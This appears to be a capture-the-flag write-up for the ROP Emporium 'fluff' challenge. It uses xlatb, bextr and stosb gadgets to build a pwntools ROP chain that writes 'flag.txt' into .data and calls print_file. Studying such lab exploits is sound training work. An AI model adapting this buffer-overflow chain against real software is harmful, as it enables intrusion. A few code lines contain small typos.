 # FLUFF

[fluff](https://ropemporium.com/challenge/fluff.html)

Ever heard how x86 is Complex Instruction Set Computer (CISC) architecture. This challenge is where this property rears its ugly head.

Instead of our familiar `mov [reg], reg` gadgets, we are faced with this:

```
$ objdump -M intel -D ./fluff
...
0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   BYTE PTR ds:[rbx]
  400629:       c3                      ret    
  40062a:       5a                      pop    rdx
  40062b:       59                      pop    rcx
  40062c:       48 81 c1 f2 3e 00 00    add    rcx,0x3ef2
  400633:       c4 e2 e8 f7 d9          bextr  rbx,rcx,rdx
  400638:       c3                      ret    
  400639:       aa                      stos   BYTE PTR es:[rdi],al
  40063a:       c3                      ret    
  40063b:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
...
```

Maybe ROPgadget will show us something different?

```
$ ROPgadget --binary ./fluff --ropchain
...
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
...
```

Nothing. We can't even move our string into `.data`.

Let's take a look at what the *questionableGadgets* can offer us then. What we can immediately notice is that there are 3 new x86 instructions that we haven't seen before.

| Instruction | Description |
| - | - |
| xlatb | Set `al` to the memory location at `rbx+al`. Equivalent to `mov BYTE al, [rbx+al]`. |
| bextr rbx, rcx, rdx | Extract bits from `rcx` into `rbx`, starting from the bit specified by the first byte of `rdx` for a maximum length specified by the second byte of `rdx`. |
| stosb | Set the byte at memory location `rdi` to the value of `al`, then increment `rdi` by one. Equivalent to `mov BYTE [rdi], al ; add rdi, 1`. |

Theoretically we can set `rbx` to anything we want by manipulating `rcx` and `rdx`. For example, by setting it the value of `rcx` to `0xaaaabbbbccccdddd` and making sure that the first byte of `rdx` is 0 and the second byte is 64 (i.e. `rdx` is `0x4000`), then we can set `rbx` to `0xaaaabbbbccccdddd`. This is pretty much the same as `mov rbx, rcx`.

```python
from pwn import *
...
POPRDXRCXBEXTR = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret

# set rbx to 0xaaaabbbbccccdddd

attack = b"A"*0x28
attack += POPRDXRCXBEXTR
attack += p64(0x4000) # set rdx to 0x4000
# set rcx to 0xaaaabbbbccccdddd
# we have to minus off 0x3ef2 to cancel out the next instruction which adds 0x3ef2 to rcx
attack += p64(0xaaaabbbbccccdddd - 0x3ef2)
...
```

Next we can use the `xlatb` gadget to set `al` to the byte at `rbx+al`. Then, we can copy that byte to the memory address pointed by `rdi` using `stosb`.

This is the basic principle for how we are going to move our "flag.txt" to `.data`.

Here are some extra gadgets and memory addresses that I thought would be useful.

```
0x400610 : mov eax, 0 ; pop rbp ; ret
0x4006a3 : pop rdi ; ret
0x400295 : ret
0x601028 : .data
```

## The attack

We start off by setting `rdi` to the location of the `.data` section and set `al` to 0.

```python
from pwn import *
...
DATA = 0x601028
POPRDI = p64(0x4006a3) # pop rdi ; ret
MOVEAX0_POPRBP = p64(0x400610) # mov eax, 0 ; pop rbp ; ret
...
attack = b"A"*0x28
attack += POPRDI + p64(DATA) # set rdi to data
attack += MOVEAX0_POPRBP + b"12345678" # junk data for rbp
...
```

Next, we have to move each byte in "flag.txt" into `.data`. Since we cannot pop our flag and move it into `.data`, we have to use random bytes in the binary to copy into `.data`. We can do this by using the `search` method to find our bytes.

```python
...
exe = context.binary = ELF('./fluff')
...
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
...
```

Now that we know where each byte is, we can start copying them over to `.data`. Since the `xlatb` instruction copies the data from `rbx+al`, we have to cancel out the effect of `al` by minusing it off on top off subtracting `0x3ef2`. This means that when `pop rcx` is performed, `rcx` should take the value `byteloc - al - 0x3ef2`. That way, the value of `al` when we do `xlatb` would be copied from the byte located at `byteloc`. After that, we can copy the value of `al` to `.data` using `stosb`. Since `rdi` is incremented in the `stosb` instruction, we don't have to increment the value of `rdi` ourselves when we copy over our new byte.

```python
from exe import *
...
POPRDXRCX = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
STOSB = p64(0x400639) # stosb [rdi], al ; ret
XLATB = p64(0x400628) # xlatb ; ret
...
current_al = 0 # al was set to 0 when we did: mov eax, 0 ; push rbp ; ret
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
    # set rbx to byteloc-current_al
    attack += POPRDXRCX + p64(0x4000) + p64(byteloc-current_al-0x3ef2)
    # al = *(rbx + al) = *( (byteloc-current_al) + current_al ) = *byteloc
    attack += XLATB
    attack += STOSB
    # no need to increment rdi because stosb does that for us
    current_al = byte
...
```

After this for loop, "flag.txt" is in place. We can set `rdi` back to `.data` and return to `print_file()`.

```python
from pwn import *
...
DATA = 0x601028
RET = p64(0x400295) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
...
attack += POPRDI + p64(DATA) + PRINT_FILE
...
```

Our attack should look like this:

```python
from pwn import *
...
DATA = 0x601028
RET = p64(0x400295) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
POPRDXRCX = p64(0x40062a) # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
BEXTRRBXRCXRDX = p64(0x400633) # bextr rbx, rcx, rdx ; ret
STOSB = p64(0x400639) # stosb [rdi], al ; ret
XLATB = p64(0x400628) # xlatb ; ret
MOVEAX0_POPRBP = p64(0x400610) # mov eax, 0 ; pop rbp ; ret
PRINT_FILE = p64(0x400510) # print_file

attack = b"A"*0x28
attack += POPRDI + p64(DATA) # set rdi to data
attack += MOVEAX0_POPRBP + b"12345678" # junk data for rbp

current_al = 0 # zeroed out by MOVEAX0_POPRBP
for byte in b"flag.txt":
    byteloc = next(exe.search(byte))
    # set rbx to byteloc-current_al
    attack += POPRDXRCX + p64(0x4000) + p64(byteloc-current_al-0x3ef2)
    # al = *(rbx + al) = *( (byteloc-current_al) + current_al ) = *byteloc
    attack += XLATB
    attack += STOSB
    # no need to increment rdi because stosb does that for us
    current_al = byte
    
attack += POPRDI + p64(DATA) + PRINT_FILE

io.sendline(attack)
...
```
